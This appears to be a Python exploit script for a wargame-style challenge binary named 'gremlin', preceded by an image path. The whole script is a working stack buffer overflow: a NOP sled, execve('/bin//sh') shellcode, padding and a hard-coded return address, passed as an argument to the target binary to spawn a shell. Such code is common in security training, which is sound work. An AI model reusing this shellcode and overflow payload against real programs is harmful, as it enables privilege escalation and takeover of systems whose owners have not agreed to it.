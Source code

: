 

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/gate/gremlin"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

buffer_addr = 0xbffffac8

payload = "\x90"*100
payload = append(shellcode)
payload = append("\x90"*(260-100-24))
payload = append(p32(buffer_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----